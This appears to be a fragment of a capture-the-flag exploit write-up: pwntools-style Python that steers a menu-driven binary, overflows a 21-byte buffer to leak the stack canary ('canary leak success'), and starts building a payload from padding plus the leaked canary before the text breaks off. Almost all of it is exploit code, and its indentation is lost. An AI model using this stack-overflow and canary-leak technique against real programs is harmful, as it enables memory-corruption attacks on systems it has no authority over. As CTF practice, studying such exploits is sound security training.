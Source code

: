 ```python

for i in  range(0,100):

s.sendline('1')

s.recv()

s.send("asdf")

s.recv()

s.send("asdf")

s.recvuntil("\tselect\t|\t")

s.sendline('3')

s.recvuntil("select number\t|\t\n")

s.sendline('100')

s.recvuntil("\tmusic\t|\t")

s.send("asdf")

s.recv()

s.send("A"*21)

s.recvuntil("\tselect\t|\t\n")

s.sendline('2')

s.recvuntil('AAAAAAAAAAAAAAAAAAAAA')

canary =  '\x00'  + s.recv(3)

print ("[*]canary : 0x%x"%u32(canary))
```
# canary leak success
```python
s.recvuntil("\tselect\t|\t")

s.sendline('3')

s.recvuntil("select number\t|\t\n")

s.sendline('100')

s.recvuntil("\tmusic\t|\t")

s.send("asdf")

s.recv()
```
# leak_printf === payload
```python
leak_printf="A"*20

leak_printf+=canary
```